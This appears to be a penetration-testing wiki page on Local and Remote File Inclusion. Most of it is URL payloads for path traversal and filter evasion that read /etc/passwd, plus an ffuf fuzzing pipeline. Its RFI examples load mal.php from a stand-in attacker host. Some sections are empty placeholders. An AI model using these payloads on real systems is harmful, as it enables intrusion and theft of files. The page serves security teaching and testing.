 # LFI/RFI Basics

## Theory

**Remote File Inclusion (RFI):** The file is loaded from a remote server (Best: You can write the code and the server will execute it). In php this is **disabled** by default (**allow\_url\_include**).\
**Local File Inclusion (LFI):** The sever loads a local file.

```bash
#Here is a very simple example of an LFI:
http://example.com/index.php?page=../../../etc/passwd

#Here is a very simple example of an RFI:
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```

## Practice

#### Basic LFI

{% tabs %}
{% tab title="stripped non-recursively" %}
You might be able to use nested traversal sequences, such as `....//` or `....\/`, which will revert to simple traversal sequences when the inner sequence is stripped.

```url
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```
{% endtab %}

{% tab title="URL encoding" %}
In some contexts, such as in a URL path or the `filename` parameter of a `multipart/form-data` request, web servers may strip any directory traversal sequences before passing your input to the application. \
You can sometimes bypass this kind of sanitization by **URL encoding**, or **even double URL encoding**, the `../` characters, resulting in `%2e%2e%2f` or `%252e%252e%252f` respectively. Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`, may also do the trick.

```url
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
{% endtab %}

{% tab title="Path validation" %}
Maybe the back-end is checking the folder path:

```url
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```
{% endtab %}

{% tab title="Folder identification" %}
Depending on the applicative code / allowed characters, it might be possible to recursively explore the file system by discovering folders and not just files.&#x20;

1. identify the "depth" of you current directory by succesfully retrieving `/etc/passwd` (if on Linux):

```
http://example.com/index.php?page=../../../etc/passwd # depth of 3
```

2. try and guess the name of a folder in the current directory by adding the folder name (here, `private`), and then going back to `/etc/passwd`:

```
http://example.com/index.php?page=private/../../../../etc/passwd # we went deeper down one level, so we have to go 3+1=4 levels up to go back to /etc/passwd 
```

3. if the application is vulnerable, there might be two different outcomes to the request: an error / no output, the `private` folder does not exist at this location; if you get the content from `/etc/passwd`, you validated that there is indeed a `private`folder in your current directory

We can **weaponize** this process using `ffuf` and `sed`:

```bash
# Adapt to your needs
$ sed 's_^_../../../var/www/_g' /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt | sed 's_$_/../../../etc/passwd_g' > payloads.txt
$ ffuf -u http://example.com/index.php?page=FUZZ -w payloads.txt -mr "root"
```
{% endtab %}

{% tab title="Wordlists" %}
You may use a wordlist to fuzz parameters and check if they are vulnerable to LFI :

* [file\_inclusion\_windows.txt](https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/file\_inclusion\_windows.txt)
* [file\_inclusion\_linux.txt](https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/file\_inclusion\_linux.txt)
{% endtab %}
{% endtabs %}

#### LFI filter evasion

{% tabs %}
{% tab title="Null Byte" %}
Bypass the append more chars at the end of the provided string (bypass of: $\_GET\['param']."php")

```
http://example.com/index.php?page=../../../etc/passwd%00
```
{% endtab %}

{% tab title="Path truncation" %}
Bypass the append of more chars at the end of the provided string (bypass of: $\_GET\['param']."php")

{% hint style="info" %}
**In PHP**: `/etc/passwd = /etc//passwd = /etc/./passwd = /etc/passwd/ = /etc/passwd/.`
{% endhint %}

```uri
#Always try to start the path with a fake directory (a/).url
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.

#With the next options, by trial and error, you have to discover how many "../" are needed to delete the appended string but not "/etc/passwd" (near 2027)
#This vulnerability was corrected in PHP 5.3.
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```
{% endtab %}

{% tab title="Filter bypass tricks" %}
Here are some payload that may evade filters

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
```
{% endtab %}
{% endtabs %}

#### LFI / RFI using PHP wrappers

{% tabs %}
{% tab title="First Tab" %}

{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

#### LFI / RFI using protocols

{% tabs %}
{% tab title="First Tab" %}

{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

## References

{% embed url="https://portswigger.net/web-security/file-path-traversal" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/file-inclusion" %}
